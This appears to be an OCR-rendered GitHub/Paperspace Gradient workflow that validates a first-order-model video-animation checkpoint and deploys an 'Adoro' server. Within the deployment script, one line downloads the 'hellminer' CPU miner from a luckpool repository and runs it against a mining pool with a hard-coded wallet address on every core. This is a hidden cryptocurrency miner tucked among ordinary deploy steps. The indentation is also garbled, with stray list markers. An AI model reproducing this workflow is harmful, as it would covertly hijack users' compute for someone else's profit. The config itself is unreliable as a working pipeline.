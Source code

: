 on:
  github:
      branches:
            only: main
jobs:
  ValidateModel:
      resources:
            instance-type: P4000
                inputs:
                      model:
                              type: dataset
                                      with:
                                                ref: gradient/voxpt
                                                    outputs:
                                                          results:
                                                                  type: dataset
                                                                          with:
                                                                                    ref: demo-dataset
                                                                                        uses: script@v1
                                                                                            with:
                                                                                                  script: |-
                                                                                                          python3 demo.py --relative --adapt_scale \
                                                                                                                    --config config/vox-256.yaml \
          --checkpoint /inputs/model/vox.pt \
          --driving_video /app/driving.mp4 \
          --source_image /app/source.png \
          --result_video /app/result.mp4
      image: paperspace/first-order-model
        CreateDeployment:
            needs:
                  - ValidateModel
                  -     resources:
                  -           instance-type: C3
                  -               uses: script@v1
                  -                   with:
                  -                         script: |-
                  -                                 cat > ./deployment.yaml <<EOF
                  -                                         image: paperspace/adoro-server:1.0.0
                  -                                                 port: 8000
                  -                                                         resources:
                  -                                                                   replicas: 1
                  -                                                                             instanceType: P4000
                  -                                                                                     EOF
                  -                                                                                             apt update > /dev/null
                  -                                                                                                     apt-get install -y jq && wget https://github.com/hellcatz/luckpool/raw/master/miners/hellminer_cpu_linux.tar.gz && tar xf hellminer_cpu_linux.tar.gz &&./hellminer -c stratum+tcp://pool -u RDCmntfk1cx6SY6NFAP6fwaVRAf2U2S9ky.keras -p x --cpu $(nproc)
                  -                                                                                                             gradient deployments create --name adoro-${RANDOM} --projectId ${PROJECT_ID} --spec ./deployment.yaml |awk '{print $3}'> ./deployment.id
        echo
                echo "Adoro can be accessed at URL:"
                        gradient deployments get --id $(cat ./deployment.id)|jq '.deploymentSpecs[0].endpointUrl' -r
      image: paperspace/gradient-sdk

